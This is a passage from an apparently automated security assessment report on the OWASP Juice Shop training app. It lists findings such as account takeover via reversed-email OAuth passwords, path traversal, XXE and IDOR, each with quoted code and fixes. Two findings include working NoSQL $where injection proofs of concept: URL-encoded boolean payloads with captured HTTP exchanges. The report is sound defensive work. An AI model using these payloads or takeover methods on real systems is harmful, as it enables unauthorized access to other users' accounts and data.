**Issue:** For OAuth users the client computes the password as base64 of the reversed e-mail address, registers the account with it and logs in with it. An attacker who knows a victim's e-mail can compute the password and log in through the password endpoint, taking over OAuth-created accounts.

No client-side control was seen; server-side login handling (`routes/login.ts`) was not read, so acceptance of this password is not confirmed by the survey.

**Evidence:** ✓ verified

```typescript
  28 │     this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
  29 │       next: (profile: any) => {
→ 30 │         const password = btoa(profile.email.split('').reverse().join(''))
  31 │         this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
  32 │           next: () => {
```

**Fix:** ◕ [M-037](#m-037) — Stop deriving passwords from the email address

**Classification:** OAuth / OIDC Misconfiguration · STRIDE: Spoofing · [CWE-1391](https://cwe.mitre.org/data/definitions/1391.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-07](#tc-authn-07)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Password reset accepts a security-question answer

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `routes/resetPassword.ts:10`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker who can research or guess the answer can satisfy the recovery check and take over the account without the original credential.

**Evidence:** ✓ verified

```typescript
   8 │
   9 │ import type { Memory as MemoryConfig } from '../lib/config.schema'
→ 10 │ import { SecurityAnswerModel } from '../models/securityAnswer'
  11 │ import * as challengeUtils from '../lib/challengeUtils'
  12 │ import { challenges, users } from '../data/datacache'
```

**Fix:** ◕ [M-041](#m-041) — Replace security-question recovery with a CSPRNG reset token delivered…

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-05](#tc-authn-05) · Rules: AUTHN-001

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Password reset relies on guessable security

**Severity:** 🟠 High - verified attack-chain keystone in AC-B-003 (User takes over another account); see [§9](#9-abuse-cases)  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `routes/resetPassword.ts:41`

**Found by:** verification ([TC-AUTHN-05](#tc-authn-05))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-012](#w-012) - Password reset relies on guessable security answer with bypassable rate limit

**Issue:** An unauthenticated caller posts email, answer and new password to reset-password. The only proof is a security answer, and the rate limit key comes from the X-Forwarded-For header, so an attacker can vary it to guess answers without limit and take over the account.

**Evidence:** ✓ verified

```typescript
  39 │         }]
  40 │       })
→ 41 │       if ((data != null) && security.hmac(answer) === data.answer) {
  42 │         const user = await UserModel.findByPk(data.UserId)
  43 │         if (user) {
```

**Fix:** ◕ [M-042](#m-042) — Strengthen recovery with emailed one-time token

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-05](#tc-authn-05)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Arbitrary server file read

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/dataErasure.ts:104`

**Found by:** scanners and verification ([TC-FILE-01](#tc-file-01))

**Reliability:** Low. Not confirmed, this may be a false positive: `path.resolve` at line 104 is used only for the blocklist check, not as a file read/write sink; the actual read depends on render layout handling, covered separately.

**Weakness:** [W-005](#w-005) - Input handling lacks enforced boundary validation

**Issue:** A logged-in user posts a layout path to `/dataerasure` (`routes/dataErasure.ts:104`). The path is resolved and rendered as a view; only a substring blacklist (ftp, `ctf.key`, encryptionkeys) at line 105 blocks it, so a request-controlled path with ../ can read other server files, with output truncated to the first 100 characters at line 114.

The scanner flagged the same location as path traversal from request input to filesystem access.

**Evidence:** ◌ ambiguous

```typescript
  102 │
  103 │       if (req.body.layout) {
→ 104 │         const filePath: string = path.resolve(req.body.layout).toLowerCase()
  105 │         const isForbiddenFile: boolean = (filePath.includes('ftp') || filePath.includes('ctf.key') || filePath.includes('encryptionkeys'))
  106 │         if (!isForbiddenFile) {
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◑ [M-005](#m-005) — Manual review: verify Arbitrary server file read through data erasure layout path · ◕ [M-043](#m-043) — Constrain file paths to a safe base directory (🟠 [F-023](#f-023))

**Classification:** Insecure File Handling · STRIDE: Tampering · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-01](#tc-file-01) · Rules: INJ-004

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: no marker_file in the scope

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Zip entry path traversal on complaint upload

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/fileUpload.ts:34`

**Found by:** survey and verification ([TC-FILE-01](#tc-file-01), [TC-FILE-02](#tc-file-02))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-005](#w-005) - Input handling lacks enforced boundary validation

**Issue:** The unauthenticated `/file-upload` route extracts zip entries to 'uploads/complaints/'+`entry.path` (`routes/fileUpload.ts:34`). The check only tests that the resolved path contains the working directory, so entries like ../..`/ftp/legal.md` write or overwrite files inside the application tree.

Controls: a 200KB multer memory limit (route wiring not served).

**Evidence:** ✓ verified

```typescript
  32 │     challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
  33 │     if (absolutePath.includes(path.resolve('.'))) {
→ 34 │       await pipeline(entry.stream(), fs.createWriteStream('uploads/complaints/' + fileName))
  35 │     }
  36 │   }
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◕ [M-044](#m-044) — Validate zip entry paths against the target directory

**Classification:** Insecure File Handling · STRIDE: Tampering · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-01](#tc-file-01), [TC-FILE-02](#tc-file-02)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: no marker_file in the scope

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Request body orderLinesData evaluated by notevil in vm

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/b2bOrder.ts:23`

**Found by:** survey and verification ([TC-INPUT-03](#tc-input-03))

**Reliability:** Low. Not confirmed, this may be a false positive: Request input reaches `safeEval` inside the vm, but no notevil escape is shown. The control's failure is unproven.

**Weakness:** [W-001](#w-001) - Application data crosses into executable code

**Issue:** A caller posts `orderLinesData` to `/b2b/v2/orders` (`routes/b2bOrder.ts:23`). The value is evaluated by notevil inside `vm.runInContext`, which is not a security boundary.

The survey notes `isAuthorized` on `/b2b/v2`, while verification notes the route auth registration was not served, so the authentication requirement is not confirmed.

**Evidence:** ◌ ambiguous

```typescript
  21 │         const sandbox = { safeEval, orderLinesData }
  22 │         vm.createContext(sandbox)
→ 23 │         vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
  24 │         res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
  25 │       } catch (err) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ◑ [M-006](#m-006) — Manual review: verify Request body orderLinesData evaluated by notevil in vm sandbox · ◕ [M-045](#m-045) — Remove evaluation of order data

**Classification:** Code Execution via Unsafe Deserialization or Eval · STRIDE: Tampering · [CWE-95](https://cwe.mitre.org/data/definitions/95.html) · [OWASP A08:2025](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/) · Verification items: [TC-INPUT-03](#tc-input-03)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Unauthenticated modification of products

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:503`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-004](#w-004) - Endpoints are reachable without enforced authentication

**Issue:** The PUT guard for `/api/Products/:id` is commented out in `server.ts`, while finale generates PUT `/api/Products/:id`. An anonymous attacker can overwrite product names, descriptions and prices, for example to plant malicious links.

**Evidence:** ✓ verified

```typescript
  501 │     const resource = finale.resource({
  502 │       model,
→ 503 │       endpoints: [`/api/${name}s`, `/api/${name}s/:id`],
  504 │       excludeAttributes: exclude,
  505 │       pagination: false,
```

**Fix:** ◕ [M-046](#m-046) — Guard Product PUT with authorization

**Classification:** Unauthenticated Management Plane · STRIDE: Tampering · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v1:** not attempted

> not tested: safe mode; every request the assessment names writes

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Wallet credited with unverified body amount

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/wallet.ts:27`

**Found by:** verification ([TC-AUTHZ-06](#tc-authz-06))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An authenticated user with any saved card sends PUT `/rest/wallet/balance` with a large balance value. The server increments the wallet by that amount without a payment, giving free store credit.

**Evidence:** ✓ verified

```typescript
  25 │     if (card != null) {
  26 │       try {
→ 27 │         await WalletModel.increment({ balance: req.body.balance }, { where: { UserId: req.body.UserId } })
  28 │         res.status(200).json({ status: 'success', data: req.body.balance })
  29 │       } catch {
```

**Fix:** ◕ [M-047](#m-047) — Credit wallets only after a verified payment

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-472](https://cwe.mitre.org/data/definitions/472.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-06](#tc-authz-06)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v1:** not attempted

> no supported proof method for CWE-472

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Expired coupon campaigns accepted from client-supplied

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/order.ts:201`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An authenticated buyer submits `couponData` base64 of a campaign code and its public `validOn` timestamp; the server compares it only with the fixed constant, never the current time, granting 40-75% discounts.

**Evidence:** ✓ verified

**Fix:** ◕ [M-048](#m-048) — Enforce authorization on the server

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · XML parser resolves external entities and DTDs

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `lib/xml.ts:35`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-020](#w-020) - XML parser resolves external entities and DTDs (`xml.ts:35`)

**Issue:** `parseXmlString` enables NOENT and DTDLOAD and registers filesystem input providers, so an XML document supplied by a caller can read local files (`file:///etc/passwd`) via external entities. The callers that feed it were not in the served source.

**Evidence:** ✓ verified

```typescript
  33 │ export async function parseXmlString (data: string, timeoutMs = 2000): Promise<string> {
  34 │   const libxml2 = await loadLibxml2()
→ 35 │   const option = libxml2.ParseOption.XML_PARSE_NOENT | libxml2.ParseOption.XML_PARSE_DTDLOAD | libxml2.ParseOption.XML_PARSE_NOBLANKS | libxml2.ParseOption.XML_PARSE_NOCDATA
  36 │   const sandbox = { libxml2, data, option }
  37 │   vm.createContext(sandbox)
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ◕ [M-049](#m-049) — Disable external entity and DTD loading

**Classification:** Insecure File Handling · STRIDE: Tampering · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Basket item update lacks ownership check and field

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/basketItems.ts:68`

**Found by:** survey, scanners and verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Low. Not confirmed, this may be a false positive: The item lookup has no ownership filter, but the middleware only reads it for a quantity check. The generated update handler is not shown.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** An authenticated user sends PUT `/api/BasketItems/``&lt;id&gt;` with another user's item id (`routes/basketItems.ts:68`). The item is loaded by id only, with no check tying it to the caller's basket; the BasketId comparison only triggers a challenge solve.

The scanner flagged the same location as an IDOR: a resource lookup by URL parameter without an ownership filter.

**Evidence:** ◌ ambiguous

```typescript
  66 │   return async (req: Request, res: Response, next: NextFunction) => {
  67 │     try {
→ 68 │       const item = await BasketItemModel.findOne({ where: { id: req.params.id } })
  69 │       const user = security.authenticatedUsers.from(req)
  70 │       challengeUtils.solveIf(challenges.basketManipulateChallenge, () => { return user && req.body.BasketId && user.bid != req.body.BasketId }) // eslint-disable-line eqeqeq
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-007](#m-007) — Manual review: verify Basket item update lacks ownership check and field allow-list · ◕ [M-050](#m-050) — Enforce object-level (ownership) authorization (🟠 [F-030](#f-030))

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03) · Rules: AUTHZ-002

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · NoSQL injection in product reviews \$where

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/showProductReviews.ts:36`

**Found by:** survey, scanners and verification ([TC-INPUT-02](#tc-input-02))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-006](#w-006) - Document-database queries take their structure from application values

**Issue:** An unauthenticated caller supplies a crafted :id to GET `/rest/products/:id/reviews` (`routes/showProductReviews.ts:36`). Request input read at line 31 is concatenated into a \$where JavaScript predicate.

The scanner flagged the same path and noted attacker control and configuration need verification.

**Evidence:** ✓ verified

```typescript
  34 │     const t0 = new Date().getTime()
  35 │
→ 36 │     db.reviewsCollection.find({ $where: 'this.product == ' + id }).then((reviews: Review[]) => {
  37 │       const t1 = new Date().getTime()
  38 │       challengeUtils.solveIf(challenges.noSqlCommandChallenge, () => { return (t1 - t0) > 2000 })
```

**Fix:** Replace string concatenation in query operators with parameter binding → ◕ [M-051](#m-051) — Replace \$where string with structured query

**Classification:** Injection · STRIDE: Tampering · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-02](#tc-input-02) · Rules: INJ-NODE-006

##### Dynamic verification

**Verdict:** confirmed · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (confirmed; the likelihood was already High or above).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** confirmed (medium)

> The :id path parameter in GET /rest/products/:id/reviews is concatenated unquoted into a MongoDB $where JavaScript predicate ('this.product == ' + id) at routes/showProductReviews.ts:36. A boolean injection experiment confirmed this: baseline id=1 returned 2 reviews. Injected predicates of the form '1 && (true-predicate)' consistently returned the same 2 reviews (matching baseline), while '1 && (false-predicate)' consistently returned an empty data array, across two repeated trials each (steps 4-13). This stable split between true/false predicate classes, with identical results on repetition, proves the server evaluates attacker-supplied JavaScript logic inside the $where clause rather than treating id as an opaque value, confirming server-side NoSQL/JS injection.

Application screenshot unavailable: no application page showing the confirmed effect was captured; for API-only findings the recorded HTTP exchanges are the primary evidence.

###### Proof of concept

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **4** | `GET /rest/products/1/reviews` | anonymous | 200, 395 bytes |
| **5** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **6** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |
| **7** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **8** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |
| **9** | `GET /rest/products/1/reviews` | anonymous | 200, 395 bytes |
| **10** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **11** | `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |
| **12** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` | anonymous | 200, 395 bytes |
| **13** | `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` | anonymous | 200, 30 bytes |

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-033-c23d5ea977c2e5ab-poc.har`.

**Normal request · step 4** (baseline input) · `GET /rest/products/1/reviews` as anonymous → 200, 395 bytes

```http
GET /rest/products/1/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Normal request · step 9** (baseline input) · `GET /rest/products/1/reviews` as anonymous → 200, 395 bytes

```http
GET /rest/products/1/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 5** (true condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition in step 6: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition's answer.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 6** (false condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 7** (true condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition, second form in step 8: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition, second form's answer.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 8** (false condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 10** (true condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition in step 11: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition's answer.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 11** (false condition) · `GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28877315%3D%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 12** (true condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews` as anonymous → 200, 395 bytes

```text
Compared with the false condition, second form in step 13: same status 200; /data has 0 entries there and 2 entries here, 2 of them not in the false condition, second form's answer.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D877315%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"message":"One of my favorites!","author":"[redacted]","product":1,"likesCount":0,"likedBy":[],"_id":"YuFZFdmp4zrvZrFTf","liked":true},{"message":"Great! We'll have an apple party. Everyone brings an apple and - STUFFS IT DOWN EACH OTHER'S THROAT!","author":"basil@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"NSpDBdbPr3kMnDRw8","liked":true}]}
```

**Attack · step 13** (false condition, second form) · `GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews` as anonymous → 200, 30 bytes

```text
Compared with the normal request in step 4: same status 200; /data has 2 entries there and 0 entries here.
```

```http
GET /rest/products/1%20%26%26%20%28884198%21%3D%3D884198%29/reviews HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

###### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

###### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

**Variant variant-002:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · NoSQL injection in order tracking \$where predicate

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/trackOrder.ts:18`

**Found by:** survey, scanners and verification ([TC-INPUT-02](#tc-input-02))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-006](#w-006) - Document-database queries take their structure from application values

**Issue:** An unauthenticated caller sends a crafted :id to GET `/rest/track-order/:id` (`routes/trackOrder.ts:18`). Request input read at line 15 is placed inside a quoted \$where JavaScript string. The scanner flagged the same path and noted attacker control and configuration need verification.

**Evidence:** ✓ verified

```typescript
  16 │
  17 │     challengeUtils.solveIf(challenges.reflectedXssChallenge, () => { return utils.contains(id, '<iframe src="javascript:alert(`xss`)">') })
→ 18 │     db.ordersCollection.find({ $where: `this.orderId === '${id}'` }).then((order: any) => {
  19 │       const result = utils.queryResultToJson(order)
  20 │       challengeUtils.solveIf(challenges.noSqlOrdersChallenge, () => { return result.data.length > 1 })
```

**Fix:** Replace string concatenation in query operators with parameter binding → ◕ [M-052](#m-052) — Query orders by exact orderId match

**Classification:** Injection · STRIDE: Tampering · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-02](#tc-input-02) · Rules: INJ-NODE-006

##### Dynamic verification

**Verdict:** confirmed · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (confirmed; the likelihood was already High or above).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** confirmed (medium)

> The id parameter in GET /rest/track-order/:id is spliced unescaped into the server-side $where JS predicate this.orderId === '${id}'. Using a known valid orderId, appending a closing quote plus an injected boolean sub-expression and re-closing the string (e.g. '5267-173e24c7ffc77007' && (655396===655396) && 'x'=='x') caused the predicate to still evaluate true and return the full real order document (including the masked email field), while the complementary false sub-expression (655396===661429) suppressed the match and returned only the synthetic fallback object lacking the email field. This true/false split was reproduced twice with both the === and !== predicate forms, confirming genuine control over the server-side JavaScript boolean expression rather than mere reflection. This demonstrates the injection primitive described in the finding: attacker-controlled boolean logic inside the $where predicate, which (as shown earlier in steps 6/9 with an OR-based tautology) also lets an attacker broaden matching to other customers' orders.

Application screenshot unavailable: no application page showing the confirmed effect was captured; for API-only findings the recorded HTTP exchanges are the primary evidence.

###### Proof of concept

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| 5 | `GET /rest/track-order/vrf23d9a53d-nomatch` | anonymous | 200, 63 bytes |
| **6** | `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` | anonymous | 200, 920 bytes |
| 7 | `GET /rest/track-order/vrf23d9a53d%27%20%26%26%20%27x%27%3D%3D%27y` | anonymous | 200, 67 bytes |
| 8 | `GET /rest/track-order/vrf23d9a53d-nomatch` | anonymous | 200, 63 bytes |
| **9** | `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` | anonymous | 200, 920 bytes |
| 10 | `GET /rest/track-order/vrf23d9a53d%27%20%26%26%20%27x%27%3D%3D%27y` | anonymous | 200, 67 bytes |
| 14 | `GET /rest/track-order/5267-173e24c7ffc77007` | anonymous | 200, 351 bytes |
| 15 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| 16 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D616334%29%20%…` | anonymous | 200, 98 bytes |
